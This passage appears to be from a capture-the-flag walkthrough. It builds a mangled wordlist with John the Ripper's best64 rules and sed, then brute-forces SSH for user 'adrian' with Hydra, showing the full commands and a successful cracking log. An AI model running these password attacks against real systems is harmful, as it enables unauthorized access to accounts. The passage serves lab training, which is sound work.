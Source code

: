 **Create 'Best of 64' password list with John**
```
john --rules=best64 --wordlist=password.txt --stdout > wordlist.txt
```

Now we have `wordlist.txt`, which uses our `best of 64` rule to mangle `ettubrute`, but we need to account for the `+ exclamation` line of our hint. While we could manually add a `!` to the end of each entry in our list, we can do it properly with the `sed` command [for the sake of learning](https://stackoverflow.com/questions/15978504/add-text-at-the-end-of-each-line).

**Add `!` to end of wordlist entries**
```
sed -i 's/$/!/' wordlist.txt
```

Now our wordlist accounts for both hints. It looks like:
```
$ cat wordlist.txt
ettubrute!
eturbutte!
ETTUBRUTE!
Ettubrute!
ettubrute0!
ettubrute1!
ettubrute2!
ettubrute3!
✂️ ................................ ✂️
```

Now we should be able use this wordlist to crack the SSH password of the `adrian` user via Hydra.

```
hydra -f -V -l adrian -P wordlist.txt -e nsr -s 22 ssh://<target-ip>
```

```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-28 16:28:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 78 login tries (l:1/p:78), ~5 tries per task
[DATA] attacking ssh://<target-ip>:22/
[ATTEMPT] target <target-ip> - login "adrian" - pass "adrian" - 1 of 78 [child 0] (0/0)
✂️ ................................ ✂️
[ATTEMPT] target <target-ip> - login "adrian" - pass "t-----------!" - 45 of 80 [child 1] (0/2)
[22][ssh] host: <target-ip>   login: adrian   password: t-----------!
[STATUS] attack finished for <target-ip> (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-28 16:28:50
```
Excelllent. We now have valid user account credentials for SSH access:
`adrian:t-----------!`
